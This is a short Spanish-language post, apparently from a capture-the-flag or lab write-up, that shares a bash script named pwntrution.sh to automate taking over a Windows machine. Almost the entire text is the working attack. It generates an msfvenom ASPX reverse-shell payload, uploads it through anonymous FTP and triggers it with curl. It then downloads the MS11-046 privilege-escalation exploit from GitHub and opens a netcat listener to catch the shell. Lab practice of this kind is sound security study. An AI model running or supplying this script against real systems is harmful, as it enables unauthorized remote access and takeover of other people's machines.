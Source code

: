 ## SCRIPT DE INTRUSION PWNTRUTION.SH

Comparto el script que realicé para automatizar la intrusión de esta máquina.

```bash
##!/bin/bash
#Author: Bast1ant1c

# $1 = IP local
# $2 = Puerto
# $3 = ReverseShell
# $4 = IP victima
# Cambiar USER y PASS si es necesario

if [ -z "$1" ]; then
	echo '''
[*] How to use
[+] ./pwntrution.sh <IP_Local> <Port> <RevShell_Name> <IP_Victim>'''
else

echo "[*] Generando payload"
msfvenom -p windows/shell_reverse_tcp LHOST=$1 LPORT=$2 -f aspx -o $3.aspx 2>/dev/null

echo "[*] Carga de payload"
ftp -n $4 << EOF
quote USER anonymous
quote PASS 
put $3.aspx
quit
EOF

echo "[*] Ejecución de payload"
curl -s http://$4/$3.aspx

echo "[*] Descargando exploit ms11-046"
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe 2>/dev/null

echo "[*] Obteniendo acceso"
rlwrap nc -lvnp $2 2>/dev/null
fi
```

<p align="center">